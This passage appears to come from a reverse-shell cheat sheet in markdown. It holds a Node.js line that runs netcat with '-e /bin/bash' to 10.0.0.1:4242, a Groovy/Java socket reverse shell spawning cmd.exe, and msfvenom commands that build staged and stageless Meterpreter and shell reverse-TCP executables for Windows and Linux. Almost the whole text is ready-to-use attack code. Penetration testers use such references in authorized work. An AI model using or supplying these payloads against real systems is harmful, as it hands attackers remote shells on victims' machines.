 ```javascript

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```

### Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
NOTE: Java reverse shell also work for Groovy

```javascript
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Meterpreter Shell

### Windows Staged reverse TCP

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Windows Stageless reverse TCP

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Linux Staged reverse TCP

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Linux Stageless reverse TCP

```powershell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Other platforms
